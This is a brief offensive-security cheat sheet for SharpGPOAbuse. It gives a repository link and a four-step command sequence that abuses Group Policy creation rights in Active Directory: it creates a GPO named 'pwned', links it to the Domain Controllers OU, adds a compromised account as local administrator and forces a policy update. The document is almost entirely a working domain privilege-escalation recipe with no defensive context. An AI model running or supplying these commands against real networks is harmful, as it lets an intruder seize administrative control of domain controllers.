 # SharpGPOAbuse 

## Github repo: https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0

### Use case: Our compromised user has the permissions to create GPOs

### Usage:

 - New-GPO -Name pwned -Comment "You have been pwned" (Create a new GPO)

 - New-GPLink -Name pwned -Target "OU=Domain Controllers,DC=DOMAIN,DC=LOCAL" -LinkEnabled Yes (Create a new GPLink)

 - .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount OUR_COMPROMISED_ACCOUNT --gponame pwned

 - gpupdate /force

